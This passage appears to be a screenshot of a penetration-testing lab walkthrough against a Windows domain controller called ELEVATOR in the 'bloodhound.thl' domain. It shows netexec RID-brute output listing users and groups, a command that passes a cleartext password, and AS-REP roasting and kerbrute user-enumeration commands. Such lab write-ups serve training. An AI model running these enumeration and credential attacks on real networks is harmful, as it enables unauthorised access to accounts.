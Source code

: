 SMB         192.168.56.105  445    ELEVATOR         527: BLOODHOUND\Administradores clave de la organización (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         553: BLOODHOUND\Servidores RAS e IAS (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         571: BLOODHOUND\Grupo de replicación de contraseña RODC permitida (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         572: BLOODHOUND\Grupo de replicación de contraseña RODC denegada (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         1000: BLOODHOUND\ELEVATOR$ (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1101: BLOODHOUND\DnsAdmins (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         1102: BLOODHOUND\DnsUpdateProxy (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         1103: BLOODHOUND\Usuarios de DHCP (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         1104: BLOODHOUND\Administradores de DHCP (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         1108: BLOODHOUND\michael.jones (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1109: BLOODHOUND\john.smith (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1110: BLOODHOUND\finanzas (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         1111: BLOODHOUND\mary.johnson (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1112: BLOODHOUND\robert.williams (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1113: BLOODHOUND\marketing (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         1114: BLOODHOUND\patricia.brown (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1115: BLOODHOUND\operaciones (SidTypeGroup)
                                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Documents/elevator/elevator-docker]
└─$ netexec smb 192.168.56.105  -u 'john.smith' -p 'Rk436\#Z4&' --rid-brute | grep SidTypeUser
SMB                      192.168.56.105  445    ELEVATOR         500: BLOODHOUND\Administrador (SidTypeUser)
SMB                      192.168.56.105  445    ELEVATOR         501: BLOODHOUND\Invitado (SidTypeUser)
SMB                      192.168.56.105  445    ELEVATOR         502: BLOODHOUND\krbtgt (SidTypeUser)
SMB                      192.168.56.105  445    ELEVATOR         1000: BLOODHOUND\ELEVATOR$ (SidTypeUser)
SMB                      192.168.56.105  445    ELEVATOR         1108: BLOODHOUND\michael.jones (SidTypeUser)
SMB                      192.168.56.105  445    ELEVATOR         1109: BLOODHOUND\john.smith (SidTypeUser)
SMB                      192.168.56.105  445    ELEVATOR         1111: BLOODHOUND\mary.johnson (SidTypeUser)
SMB                      192.168.56.105  445    ELEVATOR         1112: BLOODHOUND\robert.williams (SidTypeUser)
SMB                      192.168.56.105  445    ELEVATOR         1114: BLOODHOUND\patricia.brown (SidTypeUser)


------------------------------------------------------------------------


impacket-GetNPUsers -usersfile usuarios_limpios.txt -no-pass bloodhound.thl/  


 kerbrute userenum --dc bloodhound.thl -d bloodhound.thl usuarios_limpios.txt   
